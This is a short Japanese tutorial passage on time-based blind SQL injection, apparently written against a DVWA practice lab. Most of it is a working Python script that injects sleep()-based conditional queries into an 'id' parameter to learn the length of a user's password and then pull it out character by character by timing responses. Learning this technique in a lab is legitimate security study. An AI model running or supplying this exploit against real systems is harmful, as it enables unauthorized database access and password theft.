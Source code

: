 - 先ほどの例では、条件が真となった場合には「User id exists in the database.」という文章が返ってきた。しかし、このような文章が返ってこない場合が存在する。この時の解決方法として、時間を使用する方法がある。

- if文を用いて、真ならsleep関数を用いて、待機時間を作る。偽なら、即レスポンスを行うという方法。真と偽のときの時差から文字を探索する。

example code

```python
import requests
import sys
import re
from tqdm import tqdm
import time

# config section #################
if(len(sys.argv) <= 1):
    print('You need attacks\'s url!')
    sys.exit()

args = sys.argv
url = args[1]
cookie ={
        "security":"low",
        "PHPSESSID":"c4gctt33ospgginn5pop4re9rp"
        }

# make sure password's count ###################################
for i in tqdm(range(1,100)):
    t1 = time.time()
    sql = '1\' and if((select length(password) from users where user_id =1) ={counter},sleep(5),0);#'.format(counter =i)
    payload = {
            "id":sql ,
            "Submit" : "Submit"
    }
   
    response = requests.get(url,params=payload,cookies=cookie) 
    t2 = time.time()
    elapsed_time = t2-t1
    if elapsed_time > 5:
        break
# make sure password ################################
print('password\'s word length: {count}'.format(count=i))
for index in tqdm(range(1,i)):
    for char_number in range(48,123):
        t1 = time.time()
        char = chr(char_number)
        sql = '1\' and if(substring((select password from users where user_id =1) ,{index},1)= binary \'{char}\',sleep(5),0);#'.format(index=index,char=char)
        #     '1 and if (substring((select password from users where user_id =1),?mojime)1)=binary ?,sleep(5),9);#
        #      true then wait 5 seconds  else fast response
        payload = {
                "id":sql ,
                "Submit" : "Submit"
         }

        response = requests.get(url,params=payload,cookies=cookie)
        t2 = time.time()
        elapsed_time = t2-t1
        if elapsed_time > 5:
            
            print(char,end='')
            break
print("")
```